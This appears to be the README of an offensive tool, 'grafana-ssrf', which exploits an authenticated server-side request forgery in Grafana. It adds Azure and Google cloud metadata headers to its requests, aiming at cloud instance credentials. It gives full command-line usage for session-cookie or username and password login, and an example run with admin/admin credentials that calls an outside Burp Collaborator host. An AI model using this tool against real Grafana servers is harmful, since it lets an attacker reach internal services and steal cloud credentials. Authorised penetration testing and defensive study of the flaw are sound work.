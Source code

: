 # grafana-ssrf
Authenticated SSRF in Grafana.

Notes
---

* Azure metadata header has been added to all SSRFS
* Google metadata header has been added to all SSRFS
* SSRF will not follow redirects no matter what so ensure url is direct.
* If login is via SSO or other none grafana logins please grab your session cookie and use the -s flag

Usage
---


```
usage: grafana-ssrf.py [-h] [-s SESSION] [-u URL] [-H HOST] [-f FILE] [-U USERNAME]
                  [-P PASSWORD]

optional arguments:
  -h, --help            show this help message and exit
  -s SESSION, --session SESSION
                        Session Cookie Value
  -u URL, --url URL     URL of host to check will need http or https
  -H HOST, --host HOST  Host for Grafana
  -f FILE, --file FILE  File of URLS to check SSRF Against
  -U USERNAME, --username USERNAME
                        Username for Grafana
  -P PASSWORD, --password PASSWORD
                        Password for Grafana
```

Example
---

```
python3 grafana.py -U admin -P admin -H http://localhost:3000 -u http://8t2s8yx5gh5nw0z9bd3atkoprgx6lv.burpcollaborator.net
Refreshed Sources
SSRF Source Updated
Status code:   200
Response body: <html><body>c7yzzb4zyj5v14wkpi2nxvzjigz</body></html>
Deleted Old SSRF Source
```


